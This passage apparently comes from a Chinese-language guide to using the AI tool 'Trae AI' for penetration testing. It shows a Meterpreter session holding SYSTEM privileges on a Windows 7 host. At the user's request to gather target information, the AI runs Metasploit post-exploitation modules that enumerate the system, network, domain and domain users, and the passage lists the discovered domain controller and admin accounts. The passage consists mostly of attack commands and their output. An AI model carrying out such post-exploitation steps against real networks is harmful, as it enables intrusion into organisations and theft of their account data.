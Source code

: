 **成功結果：**
```
meterpreter > sysinfo
Computer        : WIN7-CLIENT
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : COMPANY
Logged On Users : 2
Meterpreter     : x64/windows

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### 階段 4：後滲透和信息收集

**用戶提問：**
```
收集目標系統和網絡的詳細信息
```

**Trae AI 執行流程：**
```
# 1. 系統信息枚舉
background
use post/windows/gather/enum_system
set SESSION 1
run

# 2. 網絡信息收集
use post/windows/gather/enum_network
set SESSION 1
run

# 3. 域信息枚舉
use post/windows/gather/enum_domain
set SESSION 1
run

# 4. 用戶和組枚舉
use post/windows/gather/enum_domain_users
set SESSION 1
run
```

**關鍵發現：**
```
[+] Domain: COMPANY.LOCAL
[+] Domain Controller: DC01.company.local (192.168.1.10)
[+] Domain Admins: administrator, john.doe, jane.smith
[+] Current user has local admin rights
```
